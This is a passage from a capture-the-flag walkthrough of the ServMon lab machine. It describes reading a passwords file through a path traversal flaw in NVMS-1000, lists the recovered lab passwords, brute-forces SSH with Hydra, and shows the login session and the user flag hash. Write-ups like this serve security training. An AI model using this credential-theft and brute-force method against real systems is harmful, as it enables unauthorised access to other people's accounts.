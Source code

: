 # Shell as Nadine

I know that there is on the desktop of Nathan a file called passwords.txt. As the NVMS-1000 has a Path Traversal vulnerability I could get that file and grab the passwords.

![burplfi](/assets/images/servmon/SSHpasswd.png)

I have now a list of passwords. I placed all of this passwords in a file called `passwords.txt`.

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
i  created another file for users   nadine and nathan and launched `Hydra` for ssh and i got a match for `nadine` using this password : `L1k3B1gBut7s@W0rk`

```bash
~$ ssh Nadine@10.10.10.184
Microsoft Windows &#91;Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>cd Desktop

nadine@SERVMON C:\Users\Nadine\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Users\Nadine\Desktop

08/04/2020  22:28    <DIR>          .
08/04/2020  22:28    <DIR>          ..
15/04/2020  20:51                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)  27,418,095,616 bytes free

nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt
7f26c77e1ccd17cede33c1b950c26e4e

nadine@SERVMON C:\Users\Nadine\Desktop>

```
